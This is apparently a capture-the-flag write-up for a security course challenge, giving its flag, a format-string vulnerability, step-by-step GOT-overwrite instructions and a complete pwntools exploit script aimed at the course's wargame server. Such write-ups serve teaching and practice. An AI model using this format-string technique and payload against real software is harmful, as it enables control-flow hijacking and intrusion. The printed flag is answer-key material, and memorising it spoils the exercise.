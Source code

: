 format-3 | sploitwarz
===========================

Flag: `6447{4ee67e05-ec23-4d7a-9b12-b17a3b251656}`

General overview of problems faced
-------------------------------------
Wrote a function to dynamically calculate the offset because aslr moves the win function address around

List of vulnerabilities
--------------------
1. The name buffer is used in a `printf` without formating after doing a successfull gamble

Steps to exploit the format string
------------------
1. Set your name to "%3$p"
2. Gamble and win. The odd one out is the non-fibonnaci number
3. Save the printed address and add 14172 to find the printf address in the got table. Remove -2883 to find the win function address
4. Set your name to : printf_address + (printf_address + 1) + (printf_address + 2) + (printf_address + 3) + '%{p1}c%9$hhn%{p2}c%10$hhn%{p3}c%11$hhn%{p4}c%12$hhn' where p1, p2, p3, p4 represent each byte of the win function address
5. Gamble and win.

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *


def get_fib_sequence():
    prev = 0
    curr = 1
    ret = [prev, curr]

    for i in range(1, 25):
        temp = curr
        curr = prev+curr
        prev = temp
        ret += [curr]
    return ret


def get_wrong(l):
    fibs = get_fib_sequence()
    for i, dig in enumerate(l):
        if int(dig) not in fibs:
            return i
    return 0


def do_change_name(r, new_name):
    r.sendline('c')
    r.sendline(new_name)


def do_gamble(r):
    r.sendline('g')
    r.sendline('0.0000000001')
    r.recvuntil('Pick the odd one out:')
    resp = r.recvrepeat(0.2)
    resp = resp.split('\n')
    resp = [a[3:] for a in resp if a[3:]]

    print resp, get_wrong(resp)

    wrong = get_wrong(resp)
    r.sendline(str(wrong+1))
    r.recvuntil("Well done, ")
    resp = r.recvline()
    r.sendline()
    resp = resp.split('!')

    return resp[0]


def calculate_value(a, b):
    tmp = abs(a-b)
    if a > b:
        return 0x100-tmp
    return tmp


def main():
    target = "wargames.6447.sec.edu.au"
    port = "7003"

    r = remote(target, port)

    r.sendline('%3$p')
    resp = do_gamble(r)
    print "recovered address = ", resp
    win = int(resp, 16) - 2883
    target = win + 14172
    win = hex(win)

    win = [int(win[i:i+2], 16) for i in range(2, len(win), 2)][::-1]

    payload = (
        p32(target)
        + p32(target + 1)
        + p32(target + 2)
        + p32(target + 3)
        + '%{}c%9$hhn%{}c%10$hhn%{}c%11$hhn%{}c%12$hhn'.format(
            win[0] - 16,
            calculate_value(win[0], win[1]),
            calculate_value(win[1], win[2]),
            calculate_value(win[2], win[3])
        )
    )

    print payload

    do_change_name(r, payload)

    resp = r.recvrepeat(0.2)
    print resp
    resp = do_gamble(r)
    print resp


if __name__ == '__main__':
    main()
```
